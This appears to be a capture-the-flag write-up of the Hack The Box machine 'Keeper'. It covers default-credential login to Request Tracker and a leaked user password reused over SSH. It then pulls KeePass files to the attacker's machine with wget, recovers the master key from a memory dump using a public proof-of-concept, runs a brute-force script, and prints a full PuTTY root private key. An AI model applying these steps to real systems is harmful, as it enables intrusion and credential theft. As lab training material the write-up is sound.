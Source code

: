 # **Keeper | HTB**

***

![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/21999f4f-3cc7-4bc1-9253-fd894cb3b7cf)

***

Running our nmap scan we have 2 open ports which are 22/SSH and 80/HTTP


```bash
# Nmap 7.94SVN scan initiated Thu Feb  8 06:57:52 2024 as: nmap -p- -sCV -v --min-rate=1000 -T4 -oN nmap.txt 10.10.11.227
Increasing send delay for 10.10.11.227 from 0 to 5 due to 11 out of 11 dropped probes since last increase.
Increasing send delay for 10.10.11.227 from 5 to 10 due to 116 out of 289 dropped probes since last increase.
Warning: 10.10.11.227 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.11.227
Host is up (0.17s latency).
Not shown: 58541 closed tcp ports (conn-refused), 6992 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Feb  8 07:00:42 2024 -- 1 IP address (1 host up) scanned in 170.03 seconds
```



Navigating to port 80/HTTP we can see that we advised to redirect to [tickets.keeper.htb/rt/](http://tickets.keeper.htb/rt/)



![](https://i.imgur.com/IERhxF8.png)



Go ahead and add both `tickets.keeper.htb` and `keeper.htb` to your `/etc/hosts` file



![](https://i.imgur.com/Q2hwLpq.png)



Clicking on the link you should be redirected to this page



![](https://i.imgur.com/fbZCgwG.png)



After few enumeration i decided to search for the keyword "**RT 4.4.4 default credentials**" on google and came up with `root:password` creds


![](https://i.imgur.com/nFRjj5Z.png)



Trying this out on the web page gave us access, whoop :)


![](https://i.imgur.com/l9GOIau.png)



Navigating to `http://tickets.keeper.htb/rt/Admin/Users/` i found another user called "**lnorgaard**"


![](https://i.imgur.com/PsSOGX8.png)



Clicking the username of "**lnorgaard**", looks like we found the users password, `lnorgaard:Welcome2023!`



![](https://i.imgur.com/A9qoLjh.png)



Found out that this cred we got can login via SSH 


![](https://i.imgur.com/QEcaczU.png)


Running `ls` in our user home directory we have `.zip` file, you can go ahead and unzip it, in which gives us 2 other KeePass filess



![](https://i.imgur.com/rY07FyF.png)


Go ahead and transfer both files to our attacker's machine

```bash
# Target
python3 -m http.server 1337

# Attacker
wget 10.10.11.227:1337/passcodes.kdbx
wget 10.10.11.227:1337/KeePassDumpFull.dmp
```



![](https://i.imgur.com/LANCqPy.png)


After few attempts, trying to crack the `.kdbx` file and nothing comes up, i decided to copy the `KeePassDumpFull.dmp` file and paste on google which gave me this [link](https://github.com/matro7sh/keepass-dump-masterkey)


```bash
git clone https://github.com/matro7sh/keepass-dump-masterkey.git

cd keepass-dump-masterkey

python3 poc.py <PathToDmp>
```



Sometimes, the above might not work so use this simple `.sh` script, Note that > This script works very well in the case of a physical machine, for virtual machines it does not seem stable




```bash
#!/bin/sh
# Usage: ./keepass-pwn.sh Database.kdbx wordlist.txt (wordlist with 2 char)
while read i
do
    echo "Using password: \"$i\""
    echo "$i" | kpcli --kdb=$1 && exit 0
done < $2
```


![](https://i.imgur.com/kicyADZ.png)



Running the `poc.py` script create a listener then opening the `passcodes.kdbx` dump some gibberish text in the `poc.py` process, i then decided to copy few of the text and here is what google gave me -:


![](https://i.imgur.com/r8Zo01Z.png)


Copying this and pasting it, gives us access to the dashboard (all lowercase)



![](https://i.imgur.com/n7O1gcO.png)


Unfortunately for us, the root password doesn't work 🤣, so let focus on the certificates given, go ahead and save this file into a file called `id_rsa.ppk` 


```
PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
```


![](https://i.imgur.com/vBLv3lM.png)



Now split the public key away from the file with the following command


```bash
puttygen id_rsa.ppk -O public-openssh -o id_rsa.pub
```



![](https://i.imgur.com/shqpcRE.png)




Do this also for the private key


```bash
puttygen id_rsa.ppk -O private-openssh -o id_rsa
```



![](https://i.imgur.com/qkHx1Kt.png)



You should then be able to login as root



![](https://i.imgur.com/ZFaCFrC.png)


Incase i am a little bit too nerdy, well This [blog](https://www.baeldung.com/linux/ssh-key-types-convert-ppk) explains how you can split the private and public key better 🤓, Have fun

GG 🎺


